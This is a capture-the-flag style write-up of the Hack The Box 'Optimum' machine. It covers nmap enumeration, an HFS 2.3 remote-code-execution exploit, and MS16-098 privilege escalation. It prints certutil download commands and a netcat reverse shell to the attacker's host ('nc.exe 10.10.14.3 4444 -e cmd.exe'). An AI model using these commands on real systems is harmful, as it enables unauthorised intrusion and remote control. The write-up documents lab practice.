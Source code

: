 # Enumeration:
Started with an nmap scan to enumerate the box:
```bash
# Nmap 7.92 scan initiated Sat Jul  9 21:40:08 2022 as: nmap -sS -sV -A -p- -oN nmap.txt 10.10.10.8
Nmap scan report for 10.10.10.8
Host is up (0.073s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   74.28 ms 10.10.14.1
2   74.34 ms 10.10.10.8

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul  9 21:42:08 2022 -- 1 IP address (1 host up) scanned in 120.47 seconds
```
\
**Initial Shell Vulnerability Exploited:**\
Since port 80 was open, I got into the main page and could see that it was powered by HttpFileServer (HFS) 2.3:\
![hfs_mainpage](images/optimum/hfs_mainpage.png) </br>
I found an exploit for this version on [Exploit-DB](https://www.exploit-db.com/exploits/49584) and modified the exploit to my IP Address and port, and it worked: </br>
![initial_shell_poc](images/optimum/initial_shell_poc.png) </br>
**Vulnerability Explanation:**  The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server
(aka HFS or HTTP Fileserver) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via
a %00 sequence in a search action, and the exploit abuses it </br>
**Initial Shell Screenshot:** </br>
![initial_shell_poc2](images/optimum/initial_shell_poc2.png) </br> </br>
<!--Privilege Escalation:-->
# Privilege Escalation:
I used [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester), and copied all of the system information with the Command: ```systeminfo```, saved it into a file on my Kali, and ran the script with the command:
```bash
python2 windows-exploit-suggester.py --database 2022-07-17-mssb.xls
--systeminfo /home/kali/Downloads/boxes/optimum/sysinfo.txt
```
I found out that this machine was vulnerable to MS16-098: </br>
![windows_exploit_suggester](images/optimum/windows_exploit_suggester.png) </br>
**MS16-098:** </br>
The exploit didn't work and my powershell session got stuck, So i tried using netcat, to send myself a proper CMD shell: </br>
**Kali Linux:** </br>
First, I copied the nc.exe binary to my working directory: ```cp /usr/share/windows-binaries/nc.exe . ``` </br>
Second, I hosted a python http server with: ```python -m http.server 80``` and on another window, started a netcat listener: ```nc -nlvp 1234``` </br>
**Windows Target Machine:** </br>
I used certutil to transfer the file from my Kali to the Windows machine:
```bash
certutil -urlcache -split -f "http://10.10.14.3/nc.exe" nc.exe
```
Finally, I ran the netcat with: ```nc.exe 10.10.14.3 4444 -e cmd.exe``` </br> </br>
![netcat_shell](images/optimum/netcat_shell.png) </br> </br>
Downloaded the MS16-098 Exploit from [Exploit-DB](https://www.exploit-db.com/exploits/41020), And transferred it to the Windows
Machine with certutil: </br>
```bash
certutil -urlcache -split -f "http://10.10.14.3/privesc.exe" privesc.exe
``` 
**Vulnerability Explanation:** The kernel-mode drivers in Microsoft Windows Vista SP2; Windows Server
2008 SP2 and R2 SP1; Windows 7 SP1; Windows 8.1; Windows Server 2012 Gold and R2; Windows RT
8.1; and Windows 10 Gold, 1511, and 1607 allow local users to gain privileges via a crafted application,
aka "Win32k Elevation of Privilege Vulnerability". </br> </br>
**Proof Of Screenshot:** </br> </br>
![privesc_poc](images/optimum/privesc_poc.png)



